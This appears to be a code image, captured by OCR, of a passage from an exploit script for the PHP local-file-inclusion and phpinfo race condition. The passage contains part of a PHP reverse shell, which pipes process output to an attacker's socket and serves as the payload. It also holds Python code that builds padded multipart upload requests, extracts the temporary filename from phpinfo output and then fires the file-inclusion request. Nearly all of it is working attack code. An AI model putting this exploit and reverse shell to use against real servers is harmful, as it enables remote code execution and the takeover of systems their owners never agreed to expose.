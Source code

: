 ```py
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?> 
\r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 6000
    REQ1="""POST /info.php?a="""+padding+""" HTTP/1.1\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /index.php?filename=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt")
        fn = d[i+17:i+31]
    except ValueError:
        return None

    s2.send(lfireq % (fn, host))
```